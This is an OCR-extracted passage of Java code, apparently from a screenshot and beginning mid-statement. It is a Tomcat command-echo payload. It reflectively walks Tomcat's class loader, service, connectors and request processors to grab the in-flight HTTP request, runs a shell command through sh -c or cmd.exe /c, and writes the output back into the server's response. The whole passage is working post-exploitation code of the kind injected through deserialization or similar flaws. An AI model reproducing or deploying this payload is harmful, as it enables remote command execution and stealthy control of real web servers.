 ```java
                (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
        org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
        org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
        for (int i=0;i<connectors.length;i++) {
            if (4==connectors[i].getScheme().length()) {
                org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                    Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                    for (int j = 0; j < classes.length; j++) {
                        if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                            System.out.println(classes[j].getName());
                            java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                            java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                            globalField.setAccessible(true);
                            processorsField.setAccessible(true);
                            org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                            java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                            for (int k = 0; k < list.size(); k++) {
                                org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                System.out.println(tempRequest.getHeader("tomcat"));
                                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                String cmd = "" + "ls" +"";
                                String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\\\a");
                                String output = s.hasNext() ? s.next() : "";
                                java.io.Writer writer = request.getResponse().getWriter();
                                java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                usingWriter.setAccessible(true);
                                usingWriter.set(request.getResponse(), Boolean.FALSE);
                                writer.write(output);
                                writer.flush();
                                break;
                            }
                            break;
                        }
                    }
                }
                break;
            }
        }

        return "1234";
}

```